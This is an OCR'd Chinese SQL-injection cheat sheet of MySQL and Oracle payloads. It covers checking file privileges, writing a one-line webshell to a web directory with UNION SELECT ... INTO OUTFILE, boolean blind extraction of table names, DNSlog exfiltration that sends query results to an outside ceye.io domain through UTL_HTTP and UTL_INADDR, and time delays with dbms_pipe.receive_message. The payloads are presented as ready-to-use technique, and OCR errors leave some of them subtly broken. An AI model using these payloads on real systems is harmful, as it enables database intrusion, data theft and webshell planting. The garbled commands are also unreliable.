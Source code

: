 #### MySQL 读取写入文件

必备条件

* 读：file 权限必备
* 写：绝对路径、union使用、可以使用“

判断是否具有读写权限

* AND (SELECT count(*) FROM mysql.user)>0/*
* AND (SELECT count(file_priv) FROM mysql.user)>0/*

写文件

* `into outfile` 写文件
* `union select 1,2,3,char(这里写入你转换成10进制或16进制的一句话木马代码),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*`
* `union select 1,2,3,load_file(’d:\web\log123.jpg’),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*`

## 03 Oracle 注入进阶技巧

### 一般盲注

#### 布尔型盲注

* `AND (SELECT count(table_name) FROM user tables)>1--`  //获取表的个数
* `AND (SELECT length(table_name) FROM user tables WHERE rownum=1)>1--` 1获取第一个表的表名长度
* `AND ascii(substr((SELECT table_ name FROM user tables WHERE rownum=1),1,1))>80--` //获取第一个表的第一个字符的Ascii码的值

#### DNSlog注入

* `union SELECT null, UTL_HTTP.REQUEST((SELECT table name FROM user tables WHERE rownum=1)||'.5nj580.ceye.io'),null FROM DUAL--` //UTL_HTTP. REQUEST型
* `union SELECT null, UTL_INADDR.GET_HOST ADDRESS((SELECT table_name FROM user tables WHERE rownum=1)||'.5nj580.ceye.io'), null FROM DUAL--`//UTL_INADDR. GET_HOST_ADDRESS型

### 时间型盲注

#### DBMS_PIPE. RECEIVE_MESSAGE() 函数

延时盲注 `DBMS_LOCK.SLEEP()` 函数可以让一个过程休眠很多秒，但使用该函数存在许多限制。

首先，不能直接将该函数注入子查询中，因为Oracle不支持堆叠查询(stacked query)。

其次，只有数据库管理员才能使用 DBMS_LOCK 包。

在 Oracle PL/SQL 中有一种更好的办法，可以使用下面的指令以内联方式注入延迟：

 `dbms_pipe.receive_message('RDS',10)`

DBMS_PIPE. RECEIVE_MESSAGE 函数将为从 RDS 管道返回的数据等待10秒。默认情况下，允许以public权限执行该包。

`DBMS_LOCK.SLEEP()` 与之相反，它是一个可以用在SQL语句中的函数。

延迟盲注中的应用
